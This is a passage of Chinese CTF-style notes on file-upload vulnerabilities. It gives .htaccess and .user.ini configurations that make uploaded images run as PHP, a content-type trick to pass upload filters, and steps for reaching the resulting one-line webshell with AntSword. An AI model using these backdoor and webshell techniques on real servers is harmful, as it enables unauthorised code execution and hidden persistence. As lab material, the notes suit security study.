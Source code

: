 

### 2、 .htaccess文件解析漏洞

php.ini是php的一个全局配置文件，对整个web服务起作用；而.user.ini和.htaccess一样是目录的配置文件。这里我们可以把.user.ini看作是用户自定义的一个php.ini，并且可以利用这个文件来构造后门和隐藏后门。

.user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。

第一种、虽然好用，但是会误伤其他正常文件，容易被发现

> <IfModule mime_module>
> AddHandler php5-script .gif          #在当前目录下，只针对gif文件会解析成Php代码执行
> SetHandler application/x-httpd-php    #在当前目录下，所有文件都会被解析成php代码执行
> </IfModule>

第二种、精确控制能被解析成php代码的文件，不容易被发现

> <FilesMatch "evil.gif">
> SetHandler application/x-httpd-php   #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> AddHandler php5-script .gif          #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> </FilesMatch>

第三种、同1没太大区别

> <IfModule mime_module>
> AddType application/x-httpd-php .gif
> </IfModule>

上传.htaccess，需要将文件格式改为 image/jpeg

![image-20240325201351205](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20240325201351205-1729496793741.png)

![image-20240325201413233](%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/image-20240325201413233-1729496793741.png)

上传.htaccess中识别的文件

蚁剑连接，连接的是上传文件所在的位置 

例：http://789b3aeb-6590-4b6a-89bb-17c389233df7.node4.buuoj.cn:81/upload/ff435120073c8f309f3001ca17632671/flag.jpg

对.htacccess进行过滤时

### 3、 .user.ini(局限在当前目录下有php文件)

GIF89a 

auto_prepend_file=b.gif //文件名为之前上传的一句话木马文件

### 特殊情况

会出现蚁剑连接后没有权限读取文件的情况，使用刚才上传的一句话木马进行文件读取

print_r(scandir('.'));读取当前文件夹下的所有文件
